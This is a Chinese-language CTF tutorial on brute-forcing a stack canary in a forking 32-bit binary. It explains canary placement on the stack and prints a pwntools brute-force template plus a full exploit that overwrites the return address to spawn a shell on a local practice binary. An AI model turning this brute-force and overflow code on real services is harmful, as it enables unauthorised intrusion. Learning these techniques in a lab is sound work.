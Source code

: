 > 参考资料：[https://blog.csdn.net/AcSuccess/article/details/104119680](https://blog.csdn.net/AcSuccess/article/details/104119680)
>
> 附件下载：链接：[https://pan.baidu.com/s/1Xixholq_JWSTJQQuHxYNcA](https://pan.baidu.com/s/1Xixholq_JWSTJQQuHxYNcA)
>
> 提取码：xauv 
>

# 此篇文章的更新与补充
> **<font style="color:#DF2A3F;background-color:#FBDE28;">更新时间：2023年10月06日，感谢</font>**[@鸡鸭](undefined/u34082223)**<font style="color:#DF2A3F;background-color:#FBDE28;">师傅提出的问题。</font>**
>

有师傅在**此篇文章**的评论区问道“exp中canary后面为什么要跟12字节垃圾数据呢？”：

![](https://cdn.nlark.com/yuque/0/2023/png/574026/1696591184985-dd7ae9f6-0c9d-488a-897d-e03b053aefbd.png)

我看了一眼最后的payload：`payload = 'A' * 100 + canary + 'A' * 12 + p32(addr)`，唉<font style="color:rgb(77, 81, 86);">↗</font>，对哦，为什么呢？在我印象里canary不应该是和ebp相邻的吗？如下所示：

```c
...（一些栈帧里的数据）
canary			// 假设canary的偏移为offset_0，则
ebp				// offset_4
return_addr 	// offset_8
```

然后我用gdb调试了一下程序，发现canary和ebp还真不是这样：

![](https://cdn.nlark.com/yuque/0/2023/png/574026/1696591904320-6ec3208d-54e5-43cc-a90a-c4e4e3ae8c4b.png)

再看一眼汇编代码，32位程序的canary是保存在了`mov    dword ptr [ebp - 0xc], eax`，而非`mov    dword ptr [ebp - 0x4], eax`！所以32位程序的栈结构准确来说应该为：

```c
...（一些栈帧里的数据）
canary
...	(杂数据，注意函数的栈帧在回收后并不会清空里面的数据)
...	(杂数据，注意函数的栈帧在回收后并不会清空里面的数据)
ebp
return_addr
```

然后我又在网上搜了一下，发现不同编译器编译出来的程序canary位置可能不同，比如对于ubuntu来说：使用gcc编译出来的32位程序canary会被写在`ebp - 0xc`，64位程序则在`rbp - 0x8`，后者的canary才和栈底相邻，也就是说`[https://www.yuque.com/cyberangel/rg9gdm/yfrste](https://www.yuque.com/cyberangel/rg9gdm/yfrste)`里的图**<font style="color:#DF2A3F;">并不准确</font>**：

![](https://cdn.nlark.com/yuque/0/2023/png/574026/1696592551774-f91f0b86-5797-48ec-b227-f91cc1c945b3.png)

> **<font style="background-color:#FBDE28;">总结：</font>**
>
> **<font style="background-color:#FBDE28;">1、对于ubuntu来说，32位程序的canary一般在</font>**`**<font style="background-color:#FBDE28;">ebp - 0xc</font>**`**<font style="background-color:#FBDE28;">，不和ebp（栈底）相邻；64位一般在</font>**`**<font style="background-color:#FBDE28;">rbp - 0x8</font>**`**<font style="background-color:#FBDE28;">，与栈底相邻。</font>**
>
> **<font style="background-color:#FBDE28;">2、此篇文章题目的payload更确切应为：</font>**`**<font style="background-color:#FBDE28;">payload = 'A' * 100 + canary + 'B' * 8 + 'C' * 4 + p32(addr)</font>**`**<font style="background-color:#FBDE28;">（'B' * 8用于填充，'C' * 4为fake ebp）。</font>**
>
> ![](https://cdn.nlark.com/yuque/0/2023/png/574026/1696594194721-20d41f4b-4966-4df5-9f2e-a01c476ecb96.png)
>

# 爆破原理
+ 对于Canary，虽然每次进程重启后Canary不同，但是**<font style="color:#F5222D;">同一个进程中的不同线程的Cannary是相同的，并且通过fork函数创建的子进程中的canary也是相同的，因为fork函数会直接拷贝父进程的内存</font>**。
+ 最低位为0x00，之后逐次爆破，如果canary爆破不成功，则程序崩溃；爆破成功则程序进行下面的逻辑。由此可判断爆破是否成功。
+ 我们可以利用这样的特点，彻底逐个字节将Canary爆破出来。

> 什么？你说canary是什么？请参考如下资料
>

[PWN入门（1-1-3）-Linux ELF文件保护机制](https://www.yuque.com/go/doc/11118064)

# 示例
我们使用附件中的示例来进行说明。

请现在同级文件夹下创建名为“flag”的文本文档（无.txt（扩展名）），

并向其中写入任意的flag（我的为：flag{WOW_YOU_PWN_ME!!!}）

首先检查一下文件的保护情况：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597837299454-21ed34a6-998e-4d86-9b7e-3abfc93bc862.png)

32位程序，开启了Canary保护和NX保护，将文件扔到IDA中：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597837357828-bb762423-787e-4964-a7f3-8aabedac290f.png)

从上图中可以看到，main函数中存在着fork函数，这是我们爆破Canary的重点。

进入fun()函数：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597837442748-e365c4a8-a35f-4d93-babb-3b24aff2b77d.png)

发现 read(0, &buf, 0x78u);通过对栈段进行查看，我们可以输入0x78的内容，但是buf的空间为：0x70-0xC=0x64，很明显可以发生栈溢出覆盖其他变量。其中v2就是保存Canary的变量。

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597837872784-684ddd28-719f-46d7-938d-b941ffd58c2f.png)

所以我们的思路是一位一位的来爆破Canary，详细点来说使用栈溢出填充垃圾字符直到Canary，然后再尝试填充我们的Canary。若Canary正确，则进行下一位的爆破；若Canary错误，程序会执行fork重新运行。

> 注：Canary的形式填充到寄存器中的形式为：aaaax\00
>

下面是爆破Canary的通用模板：

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']
context(arch='i386', os='linux')
local = 1
elf = ELF('./bin1')

if local:
    p = process('./bin1')
    #libc = elf.libc

else:
    p = remote('',)
    libc = ELF('./')
p.recvuntil('welcome\n')
canary = '\x00'
for k in range(3):
    for i in range(256):
        print "正在爆破Canary的第" + str(k+1)+"位" 
        print "当前的字符为"+ chr(i)
        payload='a'*100 + canary + chr(i)
        print "当前payload为：",payload
        p.send('a'*100 + canary + chr(i))
        data=p.recvuntil("welcome\n")
        print data
        if "sucess" in data:
            canary += chr(i)
            print "Canary is: " + canary
            break
```

下面是此题的exp：

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']
context(arch='i386', os='linux')
local = 1
elf = ELF('./bin1')

if local:
    p = process('./bin1')
    #libc = elf.libc

else:
    p = remote('',)
    libc = ELF('./')
p.recvuntil('welcome\n')
canary = '\x00'
for k in range(3):
    for i in range(256):
        print "正在爆破Canary的第" + str(k+1)+"位" 
        print "当前的字符为"+ chr(i)
        payload='a'*100 + canary + chr(i)
        print "当前payload为：",payload
        p.send('a'*100 + canary + chr(i))
        data=p.recvuntil("welcome\n")
        print data
        if "sucess" in data:
            canary += chr(i)
            print "Canary is: " + canary
            break
addr = 0x0804863B
payload = 'A' * 100 + canary + 'A' * 12 + p32(addr)

p.send(payload)
p.interactive()
```

getshell

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597840200583-d6f86533-565f-40f3-a398-02314769bf5a.png)

